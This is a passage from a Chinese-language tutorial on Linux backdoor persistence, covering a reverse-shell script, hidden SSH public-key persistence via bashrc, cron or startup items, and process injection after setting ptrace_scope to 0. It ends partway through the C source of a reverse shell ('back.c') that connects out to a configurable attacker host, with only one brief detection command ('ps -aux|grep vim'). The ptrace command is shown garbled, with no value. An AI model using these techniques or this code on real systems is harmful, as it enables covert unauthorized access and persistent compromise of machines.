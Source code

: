 此处的dir.py为一个反弹shell的脚本：



**检测清除**

该后门会有明显的进程信息

```
ps -aux|grep vim
```



### 9. 写入SSH公钥

> 太简单此处略写……..

##### 改进：隐藏

将写入公钥的命令写入bashrc bash_profile.  或者计划任务里 或写入开机启动项(执行写入公钥的命令)

### 10. 进程注入

> 将恶意的动态链接库注入到其他进程当中，较为隐蔽

测试

在 Linux的多个发行版本中,内核的默认配置文件/ proc/sys/ kernel/yama/ptrace_scope设置为1,意思是限制
进程除了fork()派生外,无法通过ptrace()来操作另外一个进程。故若要对进程进行注入,则需要修该值为0
```echo> /proc/sys/kernel/yama/ptrace_scope//需要root.权限```

```bash
echo> /proc/sys/kernel/yama/ptrace_scope//需要root.权限
```

**进程注入脚本** https://github.com/gaffe23/linux-inject

反弹shell的C文件 back.c 如下：

```c
/*
 * >  反弹shell C语言版
 * >  (支持ip和域名, Linux平台)
 * >　author: s0nnet
 * >  see <www.s0nnet.com>
 */

#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <netdb.h>
#include <arpa/inet.h>


int re_shell(){
    pid_t pid;
    if ((pid = fork()) == -1){
        exit(-1);
    }
    if (pid == 0) {

        setsid();
        char *host = "127.0.0.1"; //your server ip or domain
        int port = 8080; //conn port

        int sock;
        struct in_addr addr;
```
